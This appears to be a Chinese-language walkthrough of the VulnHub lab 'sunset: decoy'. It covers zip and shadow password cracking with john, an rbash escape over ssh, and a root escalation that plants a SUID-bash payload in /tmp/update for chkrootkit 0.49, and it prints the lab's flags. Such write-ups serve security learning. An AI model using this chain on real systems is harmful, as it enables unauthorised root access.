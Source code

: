 # sunset: decoy

2024-5-22 https://www.vulnhub.com/entry/sunset-decoy,505/

difficulty: Easy/Intermediate

## IP

192.168.5.30

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
```

http://192.168.5.30/ 有一个 save.zip 文件。

zip 文件是加密的，使用 john + rockyou 尝试进行爆破：

```
zip2john save.zip > hash
john hash --wordlist=~/tools/dict/rockyou.txt
```

得到解压码：manuel，对 zip 文件进行解压，进入目录，查看 passwd，发现 2 个可用用户：

```
cat passwd |grep bash
root:x:0:0:root:/root:/bin/bash
296640a3b825115a47b68fc44501c828:x:1000:1000:,,,:/home/296640a3b825115a47b68fc44501c828:/bin/rbash
```

再次使用 john + rockyou 对 shadow 进行解密：

```
john shadow --wordlist=~/tools/dict/rockyou.txt

server           (296640a3b825115a47b68fc44501c828)
```

得到用户 296640a3b825115a47b68fc44501c828 的密码:server

ssh 登陆后，发现有许多命令都不能使用：-rbash: sudo: command not found

应该是系统做了某些限制。

退出 ssh，重新连接，指定 bash 不加载 peofile，启动一个交互式 shell：

```
ssh 296640a3b825115a47b68fc44501c828@192.168.5.30 -t "bash --noprofile"
```

这时，得到了一个完整的交互式 shell，进行系统枚举，sudo、crontab、suid、cap 等都没发现特殊的程序。

读取到 user flag:

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /usr/bin/cat user.txt
35253d886842075b2c6390f35946e41f
```

honeypot.decoy 程序有一些检测功能：

```
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.
```

/usr/bin/strings honeypot.decoy 发现第 5 个选项会显示 The AV Scan will be launched in a minute or less.

然后对进程进行观察，发现启动了哪些程序或服务，发现 /bin/sh /root/chkrootkit-0.49/chkrootkit 一直在被调用。

这个版本的程序 chkrootkit-0.49 存在漏洞，https://www.exploit-db.com/exploits/33899

/tmp/update 中的内容会以 root 用户身份调用，可以将我们的利用代码写入到 /tmp/update 中：

```
echo '/usr/bin/cp /bin/bash /tmp/rootbash; /usr/bin/chmod +sx /tmp/rootbash' > /tmp/update && /usr/bin/chmod +x /tmp/update
```

过了一会，在/tmp 目录中，显示了 suid 权限的 rootbash，调用执行得到 root 权限：

```
rootbash-5.0# id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) euid=0(root) egid=0(root) groups=0(root),1000(296640a3b825115a47b68fc44501c828)
rootbash-5.0# cd /root
rootbash-5.0# ls
chkrootkit-0.49  chkrootkit-0.49.tar.gz  log.txt  pspy	root.txt  script.sh
rootbash-5.0# cat root.txt
rootbash: cat: command not found
rootbash-5.0# /usr/bin/cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_


1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```

/usr/bin/cat /var/spool/cron/crontabs/root 发现了以 root 身份每分钟定时执行的任务脚本：

```
* * * * * /bin/bash /root/script.sh

rootbash-5.0# /usr/bin/cat /root/script.sh
FILE=/dev/shm/STTY5246
if test -f "$FILE"; then
    /root/chkrootkit-0.49/chkrootkit
else
    echo "An AV scan will not be launched."
fi
```
